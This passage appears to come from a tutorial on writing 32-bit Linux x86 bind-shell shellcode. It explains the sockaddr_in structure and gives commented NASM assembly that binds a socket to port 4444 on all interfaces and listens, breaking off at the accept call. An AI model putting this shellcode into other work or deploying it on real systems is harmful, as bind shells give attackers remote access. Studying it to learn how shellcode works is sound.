The socket file descriptor returned in EAX is saved in ESI for later use.

**Socket Binding**

`struct sockaddr_in` looks like -

```c
struct sockaddr_in {
    short sin_family;       // 2 bytes
    unsigned short sin_port; // 2 bytes
    unsigned long sin_addr; // 4 bytes
    char sin_zero[8];       // 8 bytes padding
};

```

```s
    ; -----------------------
    ; We'll push: sin_zero (8), sin_addr (4), sin_port (2), sin_family (2)
    ; -----------------------
    xor     eax, eax
    push    eax         ; sin_zero (4)
    push    eax         ; sin_zero (4) -> total 8 bytes
    push    eax         ; sin_addr = INADDR_ANY (0)
    push    word 0x5c11 ; sin_port = htons(4444) -> 0x115c -> 0x5c11 in network byte order
    push    word 2      ; sin_family = AF_INET (2)
    mov     ecx, esp    ; ecx -> sockaddr_in

    ; -----------------------
    ; bind(sockfd, &addr, 16)
    ; socketcall: ebx = SYS_BIND (2), ecx = ptr([sockfd, sockaddr*, addrlen])
    ; -----------------------
    push    0x10        ; addrlen = sizeof(sockaddr_in) = 16
    push    ecx         ; pointer to sockaddr_in
    push    esi         ; sockfd
    mov     ecx, esp
    mov     eax, 0x66
    mov     bl, 2       ; SYS_BIND
    int     0x80
    ; return in eax (0 on success)

```

We create a `sockaddr_in` structure on the stack with:
- `sin_family`: AF_INET (2)
- `sin_port`: 4444 in network byte order   
- `sin_addr`: INADDR_ANY (0.0.0.0)
  
Network byte order means most significant byte first (big-endian)
The structure is 16 bytes total including padding.

**Listening and Accepting Connections**

```s
	; -----------------------
    ; listen(sockfd, backlog)
    ; socketcall: ebx = SYS_LISTEN (4), ecx = ptr([sockfd, backlog])
    ; -----------------------
    push    1           ; backlog = 1
    push    esi         ; sockfd
    mov     ecx, esp
    mov     eax, 0x66
    mov     bl, 4       ; SYS_LISTEN
    int     0x80     

    ; -----------------------
    ; accept(sockfd, NULL, NULL)
    ; socketcall: ebx = SYS_ACCEPT (5), ecx = ptr([sockfd, addr, addrlen])
```